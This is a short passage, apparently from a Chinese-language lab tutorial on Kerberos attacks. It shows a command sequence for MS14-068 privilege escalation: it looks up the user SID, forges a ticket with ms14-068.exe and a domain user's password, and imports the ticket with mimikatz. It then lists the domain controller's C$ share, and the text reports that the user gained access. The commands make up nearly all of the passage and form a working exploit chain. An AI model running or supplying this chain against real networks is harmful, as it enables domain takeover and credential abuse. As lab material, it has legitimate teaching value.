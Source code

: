     ```cmd
    # 先查看用户的 SID
    whoami /user
    whoami /all
    # 使用 MS14-068 伪造票据，会在当前目录下生成凭证
    ms14-068.exe -u member@endlessshw.com -p cjy320723 -s S-1-5-21-512852378-3429876688-390954321-1000 -d Winserver08.endlessshw.com
    # 使用 mimikatz 清空之前缓存的凭证，导入伪造的凭证（的位置）
    mimikatz # Kerberos::purge
    mimikatz # kerberos::ptc C:\Users\Winserver08\Desktop\TGT_member@endlessshw.com.ccache
    # 使用域管理权限访问磁盘
    dir \\Winserver08.endlessshw.com\c$
    ```

    ![image-20240623183950682](Kerberos/image-20240623183950682.png)
    域用户 Member 成功访问域控电脑的内容。
